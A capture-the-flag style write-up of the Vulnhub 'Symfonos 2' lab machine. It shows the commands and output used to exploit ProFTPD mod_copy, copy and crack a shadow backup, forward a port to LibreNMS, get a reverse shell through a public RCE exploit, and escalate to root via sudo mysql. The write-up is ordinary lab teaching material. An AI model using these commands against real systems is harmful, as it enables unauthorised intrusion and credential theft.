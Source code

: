 +++
title = "Vulnhub: Symfonos 2"
date = "2021-02-10"
author = ""
tags = ["Intermediate", "Vulnhub", "OSCP Prep", "Samba","ProFTPD", "CVE-2015-3306","LibreNMS","CVE-2018-20434", "Sudo", "MySQL"]
keywords = ["", ""]
description = ""
showFullContent = false
cover = "/img/symfonos1/symfonos1.png"
+++



| Difficulty | Release Date | Author | 
| ---------- | ------------ | ------ | 
| Intermediate | 18 July 2019   | Zayotic |

# Summary

This box had quite a good number of misconfigurations and vulnerabilities. Initial access was through copying a shadow
backup file to a smb share accessible anonymously using a file copy vulnerability in proftpd. Then lateral movement 
and privilege escalation was achieved by exploiting rce a locally running librenms instance and finally abusing
sudo permissions on mysql to get root.

# Reconnaissance

```
Nmap scan report for 192.168.191.129
Host is up (0.00028s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         ProFTPD 1.3.5
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 9d:f8:5f:87:20:e5:8c:fa:68:47:7d:71:62:08:ad:b9 (RSA)
|   256 04:2a:bb:06:56:ea:d1:93:1c:d2:78:0a:00:46:9d:85 (ECDSA)
|_  256 28:ad:ac:dc:7e:2a:1c:f6:4c:6b:47:f2:d6:22:5b:52 (ED25519)
80/tcp  open  http        WebFS httpd 1.21
|_http-server-header: webfs/1.21
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
Service Info: Host: SYMFONOS2; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m00s, deviation: 3h27m51s, median: 0s
|_nbstat: NetBIOS name: SYMFONOS2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
|   Computer name: symfonos2
|   NetBIOS computer name: SYMFONOS2\x00
|   Domain name: \x00
|   FQDN: symfonos2
|_  System time: 2021-01-25T07:02:21-06:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-01-25T13:02:21
|_  start_date: N/A
```

# Enumeration

## Samba (139/445)

Running smbmap on the target we see we can access the **anonymous** share without credentials:

```sh
smbmap -R -H 192.168.191.129
```

{{< image src="/img/symfonos2/smbmap.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Using smbclient to download log.txt from the anonymous share.

```sh
smbclient \\\\192.168.191.129\\anonymous -N -c 'get backups\log.txt log.txt'
```
From log.txt, we discover a backup of the shadow file is created in /var/backups/

{{< image src="/img/symfonos2/symfonos2-1.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

## FTP (21)

Checking for known vulnerabilities of the proftp version using searchsploit, we find several.

{{< image src="/img/symfonos2/symfonos2-2.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

The command execution exploits available rely on creating a php file on the existing webserver that would be executed.
However, the web server is running [webfs](https://github.com/ourway/webfsd) which only serves static content.

We can only take advantage of the file copy vulnerability. From log.txt, the smb configuration gives the location
of the anonymous share:

{{< image src="/img/symfonos2/symfonos2-3.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

We can exfiltrate information to the anonymous share by exploiting file copy on proftpd. Using the PoC shown here 
https://www.exploit-db.com/exploits/36742, let's get the shadow.bak file. You can either use netcat or telnet. 
In this case I use netcat.

```sh
nc -vn 192.168.191.129 21
```

{{< image src="/img/symfonos2/symfonos2-4.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Running smbmap command again we see that we have shadow.bak file.

{{< image src="/img/symfonos2/symfonos2-5.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

## Shell as aeolus

After downloading the shadow file from the smb we can crack it with john and rockyou wordlist.

```sh
john --wordlist=/usr/share/wordlists/rockyou.txt shadow.bak
```

{{< image src="/img/symfonos2/symfonos2-6.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Using sergioteamo as the password we can access ssh as aeolus.

Doing some basic manual enumeration, we see some ports listening on localhost. 

{{< image src="/img/symfonos2/symfonos2-7.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

8080 would most likely be a webserver, so I'll tunnel to it first using an ssh port forward.

```sh
ssh -L 8000:127.0.0.1:8080 aeolus@192.168.191.129
```
When we visit http://127.0.0.1:8000 on the browser, we find that LibreNMS is running here.

{{< image src="/img/symfonos2/symfonos2-8.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Using searchsploit again we find two existing vulnerabilities for version 1.46. 

{{< image src="/img/symfonos2/symfonos2-13.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Since we can't verify the version of librenms currently running, we'll try the exploits and see if they work. I'll go for the RCE.


Using the exploit script provided here https://www.exploit-db.com/exploits/47044, we need to provide url, session cookies,
rhost and rport where the reverse shell will be received.

Login using the earlier discovered credentials **aeolus : sergioteamo**, then retrieve the cookies using burpsuite.

{{< image src="/img/symfonos2/symfonos2-10.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Run the exploit as below and catch the reverse shell using netcat.

{{< image src="/img/symfonos2/symfonos2-11.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

We are now the cronus user. 

## Getting a root shell

Running sudo -l reveals cronus can run mysql as root with no password. 

Dropping into mysql as root user, we can get a root shell using the below command.

```sh
\! bash
```
{{< image src="/img/symfonos2/symfonos2-12.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

You can reach/follow me on Twitter if you have some feedback or questions.

Twitter: [ikuamike](https://twitter.com/ikuamike)

Github: [ikuamike](https://github.com/ikuamike)
